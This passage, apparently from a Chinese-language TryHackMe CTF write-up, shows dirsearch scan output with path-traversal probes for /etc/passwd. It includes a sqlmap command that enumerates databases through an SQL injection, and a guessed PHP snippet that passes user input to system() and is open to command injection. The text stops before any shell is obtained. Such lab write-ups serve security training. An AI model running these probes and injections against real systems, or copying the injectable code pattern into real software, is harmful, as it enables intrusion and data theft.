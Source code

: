   _|. _ _  _  _  _ _|_    v0.4.2                                                                                                                                                                                                             
 (_||| _) (/_(_|| (_| )                                                                                                                                                                                                                      
                                                                                                                                                                                                                                             
Extensions: php, jsp, asp, aspx, do, action, cgi, pl, html, htm, js, json, tar.gz, bak | HTTP method: GET | Threads: 100 | Wordlist size: 15492

Output File: /root/tryhackme/dirsearch/reports/10.10.48.179-82/_21-10-25_10-29-15.txt

Error Log: /root/tryhackme/dirsearch/logs/errors-21-10-25_10-29-15.log

Target: http://10.10.48.179:82/

[10:29:16] Starting: 
[10:29:24] 403 -  312B  - /%2e%2e//google.com                              
[10:29:25] 404 -    1KB - /+CSCOE+/session_password.html                   
[10:29:25] 404 -    1KB - /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
[10:29:25] 404 -    1KB - /+CSCOE+/logon.html#form_title_text              
[10:29:25] 404 -    1KB - /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua
[10:29:25] 403 -  312B  - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd            
[10:29:26] 404 -    1KB - /.config/psi+/profiles/default/accounts.xml      
[10:29:41] 403 -  312B  - /\..\..\..\..\..\..\..\..\..\etc\passwd           
[10:30:15] 404 -    1KB - /bitrix/web.config                                
[10:30:17] 403 -  312B  - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd     
[10:30:19] 404 -    1KB - /cms/Web.config                                   
[10:30:30] 404 -    1KB - /examples/jsp/%252e%252e/%252e%252e/manager/html/ 
[10:30:41] 404 -    1KB - /lang/web.config                                  
[10:30:50] 404 -    1KB - /modules/web.config                               
[10:31:00] 404 -    1KB - /plugins/web.config                               
[10:31:19] 404 -    1KB - /typo3conf/ext/static_info_tables/ext_tables_static+adt-orig.sql
[10:31:19] 404 -    1KB - /typo3conf/ext/static_info_tables/ext_tables_static+adt.sql
[10:31:24] 404 -    1KB - /web.config  
```

80服务运行一个上传服务，但是只能指定```.jpg```文件上传，试了绕不过去
81服务运行了一个ping域名的服务，尝试命令行绕过，貌似不行
82服务没看到啥有用的东西

81端口看url```:81/ping?id=1```，测试了一下，存在sql注入，那么应该这个才是攻击点

## 枚举数据库
```
sqlmap -u "http://10.10.48.179:81/ping?id=1" -p "id"  --batch --dbms=mysql --technique B --dbs
available databases [2]:
[*] information_schema
[*] networkmonitor

```

## 其他信息
>数据表：host 表字段：id,ip
>用户名：monitor_read@localhot
>密码：枚举不出来


## getshell  
这个shell一直打不出来，这里参考大佬的方法
在```http://10.10.48.179/profile```页面，用户名这个字段可以自由修改
而且每次修改完，上传后的路径随即也会被改变
由此可以猜想上传代码可能为：
```
$old_username = 'admin'
$new_username = $GET['username']
system('mv ' . $old_username . ' '. $new_username)
```
因为$old_username这里是用户可以控制的，也就是说可能存在命令行注入漏洞
```